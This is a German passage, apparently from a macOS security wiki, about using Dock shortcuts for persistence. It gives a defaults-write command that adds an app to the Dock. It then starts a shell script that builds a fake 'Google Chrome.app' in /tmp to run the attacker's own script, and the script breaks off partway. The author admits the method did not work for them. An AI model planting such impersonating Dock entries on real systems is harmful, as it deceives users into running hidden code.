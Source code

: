 {% hint style="danger" %}
Und das hat bei mir nicht funktioniert, aber das sind die Anweisungen aus dem Bericht :(
{% endhint %}

### Dock-Shortcuts

Bericht: [https://theevilbit.github.io/beyond/beyond\_0027/](https://theevilbit.github.io/beyond/beyond\_0027/)

* Nützlich, um den Sandbox zu umgehen: [✅](https://emojipedia.org/check-mark-button)
* Aber Sie müssen eine bösartige Anwendung im System installiert haben
* TCC-Umgehung: [🔴](https://emojipedia.org/large-red-circle)

#### Standort

* `~/Library/Preferences/com.apple.dock.plist`
* **Auslöser**: Wenn der Benutzer auf die App im Dock klickt

#### Beschreibung & Ausnutzung

Alle Anwendungen, die im Dock erscheinen, sind im plist angegeben: **`~/Library/Preferences/com.apple.dock.plist`**

Es ist möglich, **eine Anwendung hinzuzufügen** nur mit:

{% code overflow="wrap" %}
```bash
# Add /System/Applications/Books.app
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/System/Applications/Books.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'

# Restart Dock
killall Dock
```
{% endcode %}

Mit etwas **Social Engineering** könntest du **zum Beispiel Google Chrome** im Dock nachahmen und tatsächlich dein eigenes Skript ausführen:
```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
echo '#!/bin/sh
open /Applications/Google\ Chrome.app/ &
touch /tmp/ImGoogleChrome' > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CFBundleExecutable</key>
<string>Google Chrome</string>
<key>CFBundleIdentifier</key>
```